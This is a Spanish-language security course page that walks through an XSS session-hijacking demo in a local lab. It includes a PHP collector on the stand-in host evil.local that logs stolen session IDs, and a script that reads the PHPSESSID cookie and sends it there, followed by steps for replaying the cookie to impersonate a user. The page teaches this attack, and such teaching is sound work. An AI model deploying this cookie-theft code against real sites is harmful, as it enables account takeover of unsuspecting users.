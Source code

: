 **Vamos a ver un secuestro de sesión en directo.**

Para ello es necesario que creemos un host virtual en apache que responda a la url [evil.local](evil.local)

En este host virtual crearemos una página llamada `robo-de-sesion.php` con el siguiente contenido:

```php
<?php
$session_robada = $_GET['session_robada'] ?? "";
$session_robada .= "\n";
$fichero = 'sessions.txt';
// Abre el fichero para obtener el contenido existente
$actual = file_get_contents($fichero);
// Escribe el contenido al fichero
file_put_contents($fichero, $session_robada, FILE_APPEND);
```

Y ahora en el sitio `dominioseguro.local`, crea el siguiente contenido en la página `hackeada.php`

```html
<!DOCTYPE html>
<html lang="es">
<head>
<meta charset="utf-8">
</head>
<body>
    Esta es una página que ha sido hackeada mediante XSS.
Al acceder, envía la cookie de sesión al sitio http://evil.local
<script>
var c = document.cookie.replace(/(?:(?:^|.*;\s*)PHPSESSID\s*\=\s*([^;]*).*$)|^.*$/, "$1")
var myImage = new Image(1,1);
myImage.src = "http://evil.local/robar-session.php?session_robada=" + c;
</script>

</body>
</html>
```

Para que funcione, **primero debes iniciar sesión** en la página `dominioseguro.local/login.php` y después visitar la página `dominioseguro.local/hackeada.html`

Ahora abre el archivo `sessions.txt` y comprobarás que tiene una clave de sesión que puedes usar para suplantar al usuario original. Para ello, haz una petición en una página privada a `login.php`, abre la pestaña `Red` en **Firebug** , selecciona la página y pulsa el botón `Reenviar`

![image-20210131184754004](/Ciberseguridad-PePS/assets/img/validacion/image-20210131184754004.png)

Y ahí cambia el valor de `PHPSESSID` por el que se encuentra en el archivo `sessions.txt` y pulsa el botón `Enviar`

![image-20210131185040301](/Ciberseguridad-PePS/assets/img/validacion/image-20210131185040301.png)

Comprobarás en la pestaña ***Respuesta*** que hemos suplantado al usuario `mario`. Imagina que es la página de un banco, o de Facebook, etc. 
